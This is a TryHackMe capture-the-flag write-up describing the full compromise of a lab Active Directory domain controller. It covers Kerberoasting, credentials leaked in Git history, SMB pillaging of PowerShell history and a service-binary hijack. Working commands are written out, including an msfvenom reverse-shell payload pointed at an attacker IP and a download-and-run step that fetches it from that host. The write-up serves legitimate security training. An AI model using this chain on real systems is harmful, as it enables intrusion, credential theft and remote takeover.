# Enterprise — TryHackMe Writeup

> Active Directory penetration test against a corporate domain controller, chaining OSINT, source-control credential leakage, Kerberoasting, and a service-binary hijack for full domain compromise.


## Overview

| | |
|---|---|
| **Target** | `10.66.150.144` → `10.67.159.175` (IP changed mid-engagement after a VPN reconnect) |
| **Hostname** | `LAB-DC` |
| **Domain** | `ENTERPRISE.THM` / `LAB.ENTERPRISE.THM` |
| **Objective** | Full domain compromise |
| **Attack path** | OSINT → Git history credential leak → SMB auth → Kerberoasting → SMB file/console-history pillaging → service binary hijack → SYSTEM |

> **Note:** Flag values have been intentionally omitted from this writeup, in line with TryHackMe's policy on not spoiling rooms for other users.

## Skills Demonstrated

- Active Directory / Domain Controller fingerprinting via `nmap`
- Kerberos-based username enumeration (Kerbrute)
- OSINT: pivoting from an internal service banner to a public GitHub organization
- Credential recovery from Git commit history
- SMB enumeration, authenticated share access and recursive file listing
- Kerberoasting and offline hash cracking
- Harvesting credentials from PowerShell console history (`ConsoleHost_history.txt`)
- Windows service misconfiguration abuse (writable service binary path) for privilege escalation to `NT AUTHORITY\SYSTEM`

## Tools Used

`nmap` · `enum4linux-ng` · `gobuster` · `ldapsearch` · `kerbrute` · `impacket-GetNPUsers` · `impacket-GetUserSPNs` · `hashcat` · `netexec (nxc)` · `smbmap` · `smbclient` · `xfreerdp` · `msfvenom` · `penelope`

---

## 1. Reconnaissance

Initial scan against the target:

```bash
nmap -sV -sC -Pn 10.66.150.144
```



The results confirmed a Domain Controller named **LAB-DC**, with the domain exposed as both **ENTERPRISE.THM** and **LAB.ENTERPRISE.THM** (the latter being the actual AD domain used for authentication). Key open ports included Kerberos (88), LDAP (389/3268), SMB (445), RDP (3389) and WinRM over HTTP (5985).

Added the domain to `/etc/hosts`:

```bash
sudo nano /etc/hosts
# 10.66.150.144  ENTERPRISE.THM lab.enterprise.thm
```

### Null Session / Anonymous Checks

```bash
enum4linux-ng -U -S -P 10.66.150.144
nxc smb 10.66.150.144 -u '' -p '' --pass-pol
```

❌ Nothing of interest returned — no null session access.

## 2. Web Enumeration

```
http://10.66.150.144/
```



Directory brute-forcing came back empty:

```bash
gobuster dir -u http://10.67.159.175 -w /usr/share/wordlists/dirb/common.txt -x aspx,asp,html,txt
```

An HTTP `TRACE` method was flagged as available but turned out to be a dead end. A direct LDAP query was also attempted without success:

```bash
ldapsearch -x -H ldap://10.67.159.175 -b "DC=ENTERPRISE,DC=THM"
```

## 3. Username Enumeration

Switched to Kerberos-based enumeration with **Kerbrute**:

```bash
kerbrute userenum --dc 10.67.159.175 -d LAB.ENTERPRISE.THM /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -o valid_users.txt
```



Cleaned the output down to a plain username list:

```bash
grep "VALID USERNAME" valid_users.txt | awk -F'VALID USERNAME:[[:space:]]*' '{print $2}' | awk -F'@' '{print $1}' | tr '[:upper:]' '[:lower:]' | sort -u > users_clean.txt
```

Valid accounts discovered: `administrator`, `banana`, `cake`, `enterprise`, `guest`, `nik`

## 4. AS-REP Roasting (Dead End)

```bash
impacket-GetNPUsers LAB.ENTERPRISE.THM/ -usersfile users_clean.txt -dc-ip 10.67.159.175 -no-pass
```

❌ No accounts had Kerberos pre-authentication disabled — no hashes recovered. With the obvious AD attack paths exhausted, pivoted back to the network layer.

## 5. Full Port Scan → OSINT Pivot

A full TCP sweep revealed a service missed by the initial top-ports scan:

```bash
nmap -p- 10.67.159.175
```

This surfaced a **Bitbucket** login portal on port `7990`. Brute-forcing it directly failed, but the login page carried a notice that the company was migrating to GitHub. Searching for the company externally led to its public GitHub organization and a contributor profile: [`Nik-enterprise-dev`](https://github.com/Nik-enterprise-dev).

One of that account's public repositories contained a `SystemInfo.ps1` script. The current version held no secrets — but its **commit history** did:

```
$userName = 'nik'
$userPassword = 'ToastyBoi!'
```

## 6. Initial Authentication & Enumeration

Validated the leaked credentials and pulled domain user/group/policy info:

```bash
nxc smb 10.67.159.175 -u nik -p 'ToastyBoi!' --users --groups --pass-pol
```



This enumerated 14 domain users, including `bitbucket`, `replication`, `contractor-temp`, `spooks`, `korone`, `varg` and `joiner` — along with the domain's weak password policy (minimum length 7, no complexity requirements).

Given the account name `contractor-temp` and the policy hint on-screen suggesting a default-style password, tried a predictable credential:

```bash
nxc smb 10.67.159.175 -u contractor-temp -p 'Password123!'
```



✅ Valid — confirming the domain's weak password hygiene, though this account wasn't the path forward.

## 7. Kerberoasting

With `nik`'s credentials, requested service tickets for any account with an SPN set:

```bash
impacket-GetUserSPNs LAB.ENTERPRISE.THM/nik:'ToastyBoi!' -dc-ip 10.67.159.175 -request
```



Recovered a TGS hash for the `bitbucket` service account. Cracked offline:

```bash
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

✅ **Credentials obtained:** `bitbucket:littleredbucket`

## 8. SMB Shares & File Pillaging

Confirmed access and listed available shares:

```bash
nxc smb 10.67.159.175 -u bitbucket -p 'littleredbucket'
```



```bash
nxc smb 10.67.159.175 -u bitbucket -p 'littleredbucket' --shares
```



Recursively listed the readable shares with `smbmap`:

```bash
smbmap -H 10.67.159.175 -u bitbucket -p 'littleredbucket' -d LAB.ENTERPRISE.THM -r Docs
smbmap -H 10.67.159.175 -u bitbucket -p 'littleredbucket' -d LAB.ENTERPRISE.THM -r Users
```




The `Docs` share contained two interesting files — `RSA-Secured-Credentials.xlsx` and `RSA-Secured-Document-PII.docx`:

```bash
smbclient //10.67.159.175/Docs -U 'LAB\bitbucket'%'littleredbucket'
# get RSA-Secured-Document-PII.docx
```

❌ Both files were password-protected on open — a dead end for now.

Pivoted to the `Users` share and pulled PowerShell history from the `LAB-ADMIN` profile:

```bash
smbclient //10.67.159.175/Users -U 'LAB\bitbucket'%'littleredbucket' -c 'cd LAB-ADMIN\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline; get ConsoleHost_history.txt; exit'
```



The history revealed a prior session where a user staged and exfiltrated data to an external host, and — more usefully — a plaintext credential pair that had briefly been written to disk:

```
replication:101RepAdmin123!!
```

Validating it directly did not pan out:

```bash
nxc smb 10.67.159.175 -u replication -p '101RepAdmin123!!' -d LAB
```

❌ Authentication failed for that account/context.

## 9. Interactive Access

With the `bitbucket` credentials confirmed working over SMB, opened an RDP session for hands-on enumeration:

```bash
xfreerdp /v:10.67.159.175 /u:bitbucket /p:littleredbucket /d:LAB.ENTERPRISE.THM /dynamic-resolution +clipboard
```

## 10. Privilege Escalation — Service Binary Hijack

Enumerated installed services, filtering for binaries outside the default Windows path and not properly quoted:

```powershell
gwmi win32_service | select Name, DisplayName, PathName, StartMode | Where-Object {$_.PathName -notlike "C:\Windows\*" -and $_.PathName -notlike '"*'}
```



The `zerotieroneservice` service stood out. Checked the ACLs on its install directory:

```powershell
powershell -c "Get-Acl 'C:\Program Files (x86)\Zero Tier' | Format-List"
```

✅ The `bitbucket` user had **write access** to the service's binary directory — enough to replace the executable the service runs on startup.

Generated a reverse shell payload:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.131.226 LPORT=4444 -f exe -o Zero.exe
```

Started a listener and a web server to serve the payload:

```bash
penelope -p 4444
python3 -m http.server 8000
```

From the RDP session, downloaded the payload into the service directory and restarted the service to trigger execution:

```powershell
cd "C:\Program Files (x86)\Zero Tier"
Invoke-WebRequest -Uri "http://192.168.131.226:8000/Zero.exe" -OutFile "C:\Program Files (x86)\Zero Tier\Zero.exe"
Restart-Service zerotieroneservice
```

✅ Shell received as **`NT AUTHORITY\SYSTEM`** — full domain controller compromise.



---

## Attack Chain Summary

```
No creds
   │ Kerbrute username enum + full port sweep
   ▼
Bitbucket portal (web) → company name → public GitHub org
   │ OSINT on contributor profile
   ▼
nik (leaked in Git commit history → SystemInfo.ps1)
   │ Kerberoasting
   ▼
bitbucket (TGS hash → cracked)
   │ SMB share access → console history recovery
   ▼
Service misconfiguration recon (writable zerotieroneservice path)
   │ Binary replace + service restart
   ▼
NT AUTHORITY\SYSTEM (full domain compromise)
```

## Key Takeaways

- **Source control is an enumeration surface.** A "clean" current-state script can still leak credentials through its commit history — always check history, not just HEAD, when source repos are in scope.
- **A full port sweep (`-p-`) matters.** The Bitbucket service that kicked off the OSINT chain was missed entirely by a standard top-1000 scan.
- **Weak password policy compounds every other finding.** A 7-character minimum with no complexity requirement is why a guessed default (`Password123!`) worked against `contractor-temp`.
- **PowerShell history is a credential goldmine.** Admins pasting passwords into a terminal for "just this once" leave them sitting in `ConsoleHost_history.txt` indefinitely unless history is explicitly cleared.
- **Writable service binary paths are a classic, reliable privesc vector.** Any account with write access to a SYSTEM-run service's executable — regardless of how the service got there — owns the box on next restart.

---

*Writeup by [MessiasDev14011](https://github.com/MessiasDev14011) — TryHackMe: Enterprise*
